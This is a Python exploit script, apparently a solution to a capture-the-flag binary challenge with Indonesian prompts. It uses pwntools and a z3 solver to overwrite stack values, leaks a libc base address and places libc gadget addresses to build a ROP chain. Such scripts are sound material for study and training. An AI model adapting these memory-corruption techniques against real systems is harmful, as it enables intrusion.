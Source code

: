 ```py
	for i in range(29):
		p.sendlineafter("nomor bilangan:", str(32-i))
		# print(str(largest_number - i))
		p.sendlineafter("baru:", str(largest_number - 32 + i))

	p.sendlineafter("nomor bilangan:", str(0))
	p.sendlineafter("baru:", str(address))
	# pause()
	p.sendlineafter("nomor bilangan:", str(2))

	s = Solver()
	x = BitVec('x', 64)
	if(aaa):
		x = BitVec('x', 32)
		s.add(x < 0x7fffffff)
	s.add((((4294967233 - x) & 0xffffffff) ^ (((4294967233 - x) & 0xffffffff) >> 0x1f)) - (((4294967233 - x) & 0xffffffff) >> 0x1f) == amount - 0x3f)
	s.check()
	hehe = s.model()[x]
	print(hehe)
	p.sendlineafter("baru:", str(hehe))

adder(0x6b, stack_leak + 0x128)
adder((stack_leak + 0x1d0) & 0xffffffff, stack_leak + 0x130, aaa=True)
adder((stack_leak + 0x1d0) >> 32, stack_leak + 0x134, aaa=True)
adder(0x634, stack_leak + 0x138)
adder(0x7ffffc38, stack_leak + 0x158)
adder(0x7ffffc38, stack_leak + 0x158)
# adder(0x330394ad, stack_leak + 0x158)
adder(0x3fffffff, stack_leak + 0x15c)
adder(0x3fffffff, stack_leak + 0x15c)
adder(0x3fffffff, stack_leak + 0x15c)
adder(0x3fffffff+3, stack_leak + 0x15c)
adder(0x7fffffcf, stack_leak + 0x160)
adder(0x7fffffcf, stack_leak + 0x160)
adder(0xc4, stack_leak + 0x160)
adder(0x3fffffff, stack_leak + 0x164)
adder(0x3fffffff, stack_leak + 0x164)
adder(0x3fffffff, stack_leak + 0x164)
adder(0x3fffffff+3, stack_leak + 0x164)
adder(0x6f0, stack_leak + 0x170)

# pause()

p.sendlineafter("(Y/N)", 'N')
libc_leak = int(codecs.encode(p.recvuntil("\x7f")[-6:][::-1], 'hex'), 16)
libc_base = libc_leak - 0x228190

print(hex(libc_base))

adder(0x4a7, stack_leak + 0x178, not_help=False)

adder(0x62, stack_leak + 0x168)

# adder((libc_base + 0x0000000000026b6e) & 0xffffffff, stack_leak + 180)
# while(p.recvuntil("menang!", timeout=1) == b''):
# adder((libc_base + 0x0000000000026b6e) >> 32, stack_leak + 0x184)
adder((libc_base + 0x0000000000027b72) & 0xffffffff, stack_leak + 0x1a0,aaa=True)
adder((libc_base + 0x0000000000027b72) >> 32, stack_leak + 0x1a4,aaa=True)
adder((libc_base + 0x1b85aa) & 0xffffffff, stack_leak + 0x1a8,aaa=True)
adder((libc_base + 0x1b85aa) >> 32, stack_leak + 0x1ac,aaa=True)
adder((libc_base + 0x000000000004a1f3) & 0xffffffff, stack_leak + 0x1b0,aaa=True)
adder((libc_base + 0x000000000004a1f3) >> 32, stack_leak + 0x1b4,aaa=True)
```
